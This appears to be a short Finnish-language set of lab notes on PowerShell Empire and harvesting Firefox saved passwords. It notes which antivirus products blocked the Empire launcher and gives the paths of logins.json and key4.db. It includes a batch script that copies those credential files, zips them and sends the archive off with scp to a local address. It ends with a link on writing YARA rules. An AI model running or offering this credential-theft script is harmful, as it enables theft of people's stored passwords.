 # Tommin muistiinpanot:

### HTTPS kuuntelijalla PowerShell Empire

Avira antoi PowerShell Empiren launcher.batin pyörähtää nätisti, mutta yhteys ei auennut.  
Kaspersky pysäytti scriptin samantien.  

### Firefox salasanat
Firefox password location:  
C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\l9ukvzcl.default\logins.json  

Firefox password decryption:  
C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\l9ukvzcl.default\ķey4.db  
  
Key.db numero vaihtelee
  
Salasanojen kopiointi:
```
mkdir C:\salasanat\
powershell Copy-Item -Path C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\logins.json -Destination C:\salasanat\
powershell Copy-Item -Path C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\key*.db -Destination C:\salasanat\
pause
powershell Compress-Archive -Path C:\salasanat -DestinationPath C:\salasanat\salasanat.zip
pause
scp C:\salasanat\salasanat.zip restricted@127.0.0.1:/home/restricted/.
pause
```

Sääntöjen teko:
https://seanthegeek.net/257/install-yara-write-yara-rules/
